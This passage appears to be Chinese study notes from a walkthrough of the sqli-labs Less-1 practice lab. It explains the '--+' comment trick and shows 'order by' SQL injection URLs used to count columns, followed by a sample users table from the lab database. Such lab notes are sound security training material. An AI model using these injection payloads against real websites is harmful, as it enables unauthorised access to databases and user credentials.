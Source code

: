 如果`-- `这样后面的空格会被去掉，所以要用`--+和-- 1`  

`http://10.101.177.100:9990/Less-1/?id=1' order by 3--+`

![](assets/markdown-img-paste-20180417163819480.png)

`http://10.101.177.100:9990/Less-1/?id=1' order by 4--+`

![](assets/markdown-img-paste-20180417163856665.png)

`order by`是按照哪一个列名进行排序  

```
mysql> select * from users order by 2;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+

|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  7 | batman   | mob!le     |
| 12 | dhakkan  | dumbo      |
|  1 | Dumb     | Dumb       |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (0.00 sec)
```
